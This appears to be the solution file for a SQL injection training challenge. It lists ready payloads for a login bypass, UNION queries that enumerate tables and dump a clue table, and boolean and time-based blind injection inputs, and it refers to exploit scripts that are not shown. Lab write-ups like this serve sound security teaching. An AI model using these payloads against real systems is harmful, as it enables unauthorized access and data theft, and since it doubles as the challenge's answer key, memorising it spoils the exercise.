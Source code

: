# Solution to the SQL injection challenge

## Login
**Username:** <code>admin</code>  
**Password:** <code>' OR 1=1 -- </code> (include the space at the end)

## Search Box – Get table names
**Search Input:** <code>' UNION ALL SELECT table_name, 1, 1 FROM information_schema.tables WHERE table_schema=database() -- </code> (include the space at the end)

## Search Box – Get challenge clue
**Search Input:** <code>' UNION ALL SELECT *, 1 FROM challenge_clue -- </code> (include the space at the end)

## Check username box - /index_like.php
**Input:** <code>admin' AND password LIKE BINARY '{guess}%' --  </code> (include the space at the end)
see /exploit_scripts/like.py for complete exploit

## Check username box - /index_like_no_feedback.php
**Input:** <code>admin' AND password LIKE BINARY '{guess}%' AND SLEEP({delay}) --  </code> (include the space at the end)
see /exploit_scripts/like_no_feedback.py for complete exploit
